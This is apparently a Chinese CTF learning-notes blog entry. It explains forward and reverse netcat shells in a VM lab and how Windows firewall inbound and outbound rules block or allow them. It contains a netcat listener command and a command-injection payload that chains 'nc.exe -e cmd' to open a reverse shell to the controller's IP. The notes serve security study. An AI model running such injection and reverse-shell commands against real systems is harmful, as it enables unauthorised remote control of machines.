 ```yaml
---
title: 20250113CTF学习笔记39
date: 2025-01-13
tags:
 - CTF
 - CTFLearn
categories:
   - 命理学 Numerology
isShowComments: true
publish: true























---
```


<Boxx/>

从0开始学习CTF，了解CTF基本规则、方法，这是开始打卡学习的第55天

今日内容：基础入门-反弹SHELL&带外查询&正反向连接&防火墙出入站&文件下载

[[toc]]

- 小迪安全视频地址【[🔗传送门]([https://www.bilibili.com/video/BV123yAYMEwb/)】

<!-- more -->

# 第24章：基础入门-反弹SHELL&带外查询&正反向连接&防火墙出入站&文件下载

## 防火墙出入站

又书接上回，感觉这样下去进度太慢了。

1. 从下图我们可以看到，我们是用正向连接的方式，在虚拟机中，在输入框中拼接了命令，然后左侧用`netstat -an`查看端口占用情况，用`ipconfig`查看内网IP地址，我们在右侧用宿主机尝试连接，因为宿主机也是Windows，所以用的是nc.exe的命令，如果控制端是用的Linux，就要用ncat命令：

   ![image-20250113211205127](/img/ctfLearn/image-20250113211205127.png)

   从下图可以看到nc.exe被执行了。

   ![image-20250113212103697](/img/ctfLearn/image-20250113212103697.png)

2. 我们也可以用反向连接的方式，被控制端需要将权限主动给到我们控制端。

   首先我们需要在控制端监听5566的端口，输入以下命令

   ```
   nc.exe -lvvp 5566
   ```

   然后在虚拟机Windows，也就是被控制端中，用命令拼接的方式输入以下内容

   ```
   127.0.0.1 | C:\\Users\Administrator\Desktop\nc.exe -e cmd 192.168.8.10 5566
   ```

   ![image-20250113213043967](/img/ctfLearn/image-20250113213043967.png)

   此时发现虽然nc.exe被启动了，但是并没有占用被控制端的端口，用的是控制端的端口。



### 实际案例2：防火墙组合

以上是最简单的应用，下面是加上防火墙以后的演示，最主要是要我们了解正反向连接的思路

防火墙一般分为`入站策略`、`出站策略`

- **入站策略：**检查进来的。就像门卫，检查外部网络试图进入内部网络或本地计算机的流量，按预设规则决定是否放行。
- 出站策略：检查出去的。管理内部网络设备或计算机向外部网络发送数据的行为，限制对外连接，防止数据泄露 。

### 整理思路：

1. 开启防火墙，添加入站策略，限制5566端口

   ![image-20250113220058938](/img/ctfLearn/image-20250113220058938.png)

   ![image-20250113221445221](/img/ctfLearn/image-20250113221445221.png)

2. 这种情况下，我们入站限制了5566端口，所以主动连接的方式不可以了。（试了一下其他端口是可以的）

   ![image-20250113223438444](/img/ctfLearn/image-20250113223438444.png)

3. 这种情况下只能选取第二种方案，将权限给出去。命令需要记清楚，反向连接是不能输入`-lvvp`的

   ![image-20250113224330318](/img/ctfLearn/mage-20250113224330318.png)

4. 添加出站规则，限制出站的5566端口。我们可以看到5566是出不去了

   ![image-20250113224845190](/img/ctfLearn/image-20250113224845190.png)

5. 其实这里视频演示了一个步骤，删掉入站规则的限制5566端口，然后尝试正向连接，但还是不行，因为防火墙开了以后，入站是只允许程序通讯的接口，如果限制出站，入站里面没有放行的话，是依然不能连接的。具体是因为这个防火墙有个优先级，入站比较严格，出站比较宽松。所以即使我们没有开启入站规则，也有可能进不去。

   > 这里我实验是可以连接的，我认为问题出在了他是云服务器，默认只开了仅有的几个端口可以入站，我这边是虚拟机，允许的端口数量非常多。可能差异就出现在这里。

   ![image-20250113231039098](/img/ctfLearn/image-20250113231039098.png)

6. 如果这时候我们再加一条入站允许5566端口的规则，就应该能连接了

   ![image-20250113230914339](/img/ctfLearn/image-20250113230914339.png)

